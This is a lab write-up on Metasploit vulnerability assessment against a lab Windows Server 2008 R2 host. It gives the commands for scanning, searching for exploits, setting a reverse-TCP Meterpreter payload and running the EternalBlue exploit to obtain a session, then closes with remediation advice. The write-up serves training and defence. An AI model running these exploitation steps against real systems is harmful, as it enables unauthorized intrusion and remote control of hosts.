# Vulnerability Scanning with Metasploit

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Target:** 10.10.10.4 (VAGRANT-2008R2 - Windows Server 2008 R2 SP1 x64)<br>
**Attacker:** 10.10.10.5

## 1. Executive Summary

This lab covers the vulnerability-assessment workflow inside the **Metasploit Framework**:
discovering hosts, running a service scan with `db_nmap`, storing the results in the MSF
database, and mapping the discovered services (IIS, MySQL, GlassFish, SMB) to candidate
exploits with `search` and `searchsploit`. We confirm the target is vulnerable to
**MS17-010 (EternalBlue)**, exploit it for a Meterpreter session, and finish with the
`db_autopwn` plugin and the `analyze`/`vulns` commands.

## 2. Host Discovery

```bash
sudo nmap -sn 10.10.10.1/24
```

Five hosts are up; our machine is `10.10.10.5`, so the target is `10.10.10.4`.



## 3. Service Scan (db_nmap)

From MSF Console (after creating a workspace) we run a service/OS scan so the results land
in the database.

```bash
db_nmap -sS -sV -O 10.10.10.4
```



## 4. Reviewing the Database

```bash
hosts
```



```bash
services
```

The host exposes FTP, **IIS 7.5**, SMB, **MySQL 5.5.20**, **GlassFish 4.0**, Tomcat and
many MSRPC ports.



## 5. Mapping Services to Exploits

We search for exploits per service, starting with IIS.

```bash
search type:exploit name:Microsoft IIS
```





Most IIS modules target older versions (5.0, 4.0...), so IIS 7.5 is not a quick win. We
continue with other services.

```bash
search type:exploit name:MySQL 5.5
```



```bash
search Sun GlassFish
```



We select the GlassFish deployer module, which defaults to a Linux payload.

```bash
use exploit/multi/http/glassfish_deployer
```



Since the target is Windows, we switch to a Windows Meterpreter payload.

```bash
set payload windows/meterpreter/reverse_tcp
```



The module `info` confirms it has been tested against GlassFish 4.0 (the running version);
configuring and launching it is left as future work.



## 6. searchsploit

Kali's offline Exploit-DB search is another option.

```bash
searchsploit "Microsoft Windows SMB"
```





We can filter for Metasploit modules with `grep`.

```bash
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
```



## 7. Confirming & Exploiting MS17-010 (EternalBlue)

An auxiliary scanner tells us whether the host is vulnerable to EternalBlue.

```bash
use auxiliary/scanner/smb/smb_ms17_010
run
```

The host is **likely VULNERABLE to MS17-010** (Windows Server 2008 R2 x64).



```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```



```bash
run
```



A Meterpreter session is opened on `VAGRANT-2008R2`.

```bash
sysinfo
```



## 8. db_autopwn & analyze

Metasploit's `db_autopwn` plugin can match database hosts/ports to exploit modules
automatically (deprecated, but still usable if loaded manually).

```bash
load db_autopwn
```



```bash
db_autopwn -p -t -PI 445
```



The `analyze` command reviews the database and lists the modules ready to test for each
host.

```bash
analyze
```



```bash
vulns
```

The stored vulnerability is the **MS17-010 SMB RCE** finding with its CVEs.



## 9. Remediation Recommendations

1. **Patch MS17-010** and disable SMBv1; this is the critical, directly exploitable flaw.
2. **Keep all exposed services updated** (IIS, MySQL, GlassFish, Tomcat) and remove those
   not needed.
3. **Reduce the attack surface:** firewall management and database ports, and segment the
   network to limit exposure.
4. **Run regular authenticated vulnerability scans** and track findings to remediation.
